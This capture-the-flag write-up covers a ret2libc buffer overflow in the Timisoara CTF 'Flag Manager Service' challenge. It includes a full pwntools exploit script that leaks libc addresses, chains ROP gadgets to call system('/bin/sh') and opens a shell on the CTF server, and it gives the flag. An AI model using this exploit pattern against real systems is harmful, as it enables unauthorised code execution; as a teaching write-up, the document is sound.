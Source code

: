 ```yaml
---
title: "Flag Manager Service [400]"
tags: [Timisoara CTF, Binary Exploitation]
excerpt: "Binary Exploitation"
--- 
```


**Category:** Binary Exploitation 

> Our spies found this flag manager service running on the ctf server. It needs a password tho, but I am sure you can handle it.  
nc 89.38.208.144 11115

## Write-up
Analysis of the binary with Ghidra shows this is a standard ret2libc buffer overflow. `libc-2.27.so` being provided reinforces the challenge being a ret2libc.

As usual, all ret2libc exploits have the following order:
1. **Leak the address of puts**  
Leak the address of `puts` using `puts` to output the address. Essentially, just call `puts(puts_got)`, where `puts_got` is the address of `puts`in the `GLOBAL OFFSET TABLE (GOT)`.

2. **Calculate the libc base**  
Libc base can be calculated using `puts` - `puts_offset`, where `puts` is the leaked address and `puts_offset` is the address of `puts` in libc. 

3. **Calculate system and /bin/sh address**    
With libc base value, the address of `system` and the string `/bin/sh\x00` can be calculated using `libc_base + system_offset` and `libc_base + binsh_offset` respectively.

4. **Call system(/bin/sh)**  
Overflow the buffer and call `system(/bin/sh)`, which executes shell. Before calling `system(/bin/sh)`, the `RSI` register has to be set to 0, or the call will not work.

Here's the final exploit:
```python
from pwn import *
from LibcSearcher import LibcSearcher
import sys

config = {
    "elf" : "./flag_manager01",
    "libc" : "./libc-2.27.so",
    "ld" : "./ld-2.27.so",
    "HOST" : "89.38.208.144",
    "PORT" : 11115,
}

def exploit(p):
	padding = "\x90"*88
	main = elf.symbols['main']
	puts_got = elf.got['puts']
	puts_plt = elf.plt['puts']

	pop_rdi = elf.search(asm("pop rdi ; ret")).next()
	pop_rsi_r15 = elf.search(asm("pop rsi ; pop r15 ; ret")).next()

	payload = padding 
	payload += p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
	sla("Enter your name: ", payload)
	sla("Enter password please: ", '') 

	p.recvline()
	p.recvline()

	puts = u64(p.recvline().strip() + '\x00'*2)
	base = puts - libc.symbols['puts']
	system = base + libc.symbols['system']
	sh = base + libc.search("/bin/sh\x00").next()

	payload = padding + p64(pop_rdi) + p64(sh) + p64(pop_rsi_r15) + p64(0) + p64(0) + p64(system)

	sla("Enter your name: ", payload)
	sla("Enter password please: ", '')
	 
	lg("SYSTEM: " + hex(system))
	lg("BASE: " + hex(base))
	p.interactive()

if __name__ == "__main__":
    elf = context.binary = ELF(config["elf"])

    if "libc" in config.keys() and config["libc"]:
        libc = ELF(config["libc"])

    if sys.argv[-1] == "remote":
        p = remote(config["HOST"], config["PORT"])
    else:
        if "libc" in dir(): 
            p = process([config["ld"], config["elf"]], env={"LD_PRELOAD" : config["libc"]})
        else: 
            p = process(config["elf"])

        pause()

    sl = lambda a: p.sendline(a)
    sla = lambda a,b: p.sendlineafter(a,b)
    r = lambda a: p.recv(a)
    ru = lambda a: p.recvuntil(a)
    lg = lambda a : log.info(a)

    exploit(p)
```

**Flag:** TIMCTF{d3v_fd_i5_sn3aky_backd00r}
